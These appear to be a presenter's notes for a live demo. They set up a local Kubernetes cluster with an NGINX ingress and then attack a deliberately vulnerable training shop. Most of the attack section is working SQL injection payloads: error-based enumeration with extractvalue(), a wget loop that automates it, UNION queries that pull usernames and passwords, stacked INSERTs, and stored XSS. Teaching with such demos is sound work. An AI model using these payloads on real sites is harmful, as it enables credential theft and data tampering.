 # RESET

```
set +o history
kind delete cluster
docker pull nginx
docker pull nginx/nginx-ingress:2.1.1
docker pull ghcr.io/learnk8s/f5-microservices-march-three
helm repo remove nginx-stable
rm *
cp /Users/cns/httpdocs/talks/nginx-livedemo/cluster-config.yaml .
reset
kind create cluster --config cluster-config.yaml
kind load docker-image ghcr.io/learnk8s/f5-microservices-march-three
kind load docker-image nginx/nginx-ingress:2.1.1
kind load docker-image nginx
bat cluster-config.yaml
```

# todo:

- create deployment
- create node port service

# leak data

theres a few ways we can leak data out,

## error

we can simply corrupt the query to see if an error attack might work

```
http://localhost/product/1"a
```

ok, great news errors are surfaced we'll use `extractvalue()` its a simple way to is an easy way to generate an error and allow us to leak things, it only works with single values at a time, and will be truncated a bit, so requires enumerating through them

```
http://localhost/product/1" AND extractvalue(rand(),version())-- //
```

start enumerating through to see the databases

```
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,schema_name) FROM information_schema.schemata LIMIT 0,1)))-- //
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,schema_name) FROM information_schema.schemata LIMIT 1,1)))-- //
```

ok, so now we know the database name we is sqltraining, so we can use the same tactic to get the tables in that database

```
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema="sqlitraining" LIMIT 0,1)))-- //
```

interesting a users table!

```
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema="sqlitraining" LIMIT 1,1)))-- //
```

Now all this enumeration might feel quite laborious, but what if instead use a simple script to do that instead

```bash
for i in {0..20}; do
  wget -q -O - "http://localhost/product/1\" AND extractvalue(rand(),concat(0x3a,(SELECT COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME=\"products\" AND table_schema=\"sqlitraining\" LIMIT ${i},1)))-- //" | grep mysqli_sql_exception | cut -d" " -f9
done
```

it shouldn't take much imagination to figure out how you could automate stealing all rows

# union leak

we don't know how many columns were in the original query so we have to brute force queries to satisfy the original query

```
http://localhost/product/-1" UNION SELECT username FROM users where id=1 -- //
http://localhost/product/-1" UNION SELECT username, password FROM users where id=1 -- //
http://localhost/product/-1" UNION SELECT username, password, username FROM users where id=1 -- //

http://localhost/product/-1" UNION SELECT username,username,password,password,username FROM users where id=1 -- //
```

###

## inserting

```
http://localhost/product/1"; INSERT INTO products(product_name, product_type, description, price) VALUES("hack", "hack", "hack", 1); -- //
```

## inserting with xss

```
http://localhost/product/1"; INSERT INTO products(product_name, product_type, description, price) VALUES("<script>alert('hi')</script>", "hack", "hack", 1); -- //
http://localhost/product/1"; INSERT INTO products(description, product_name, product_type, price) VALUES("<iframe width=560 height=315 src='https://www.youtube-nocookie.com/embed/dQw4w9WgXcQ'></iframe>", "never gonna", "give you up", 1); -- //

```

Similarly you can probably imagine anything else we can do like truncate tables, add users, dump lots of data into a table

http://localhost/product/<iframe width='560' height='315' src='https://www.youtube-nocookie.com/embed/dQw4w9WgXcQ'></iframe>

<iframe sandbox="allow-forms allow-modals allow-popups allow-pointer-lock allow-same-origin allow-scripts" allowfullscreen="true" src="https://www.youtube-nocookie.com/embed/9Auq9mYxFEE?autoplay=1&amp;mute=1&amp;cc=1"></iframe>
# ingress
```bash
helm repo add nginx-stable https://helm.nginx.com/stable

helm install main nginx-stable/nginx-ingress \
 --set controller.enableSnippets=true \
 --set controller.image.pullPolicy=Never \
 --set controller.service.type=NodePort \
 --set controller.service.httpPort.nodePort=30000

```

```
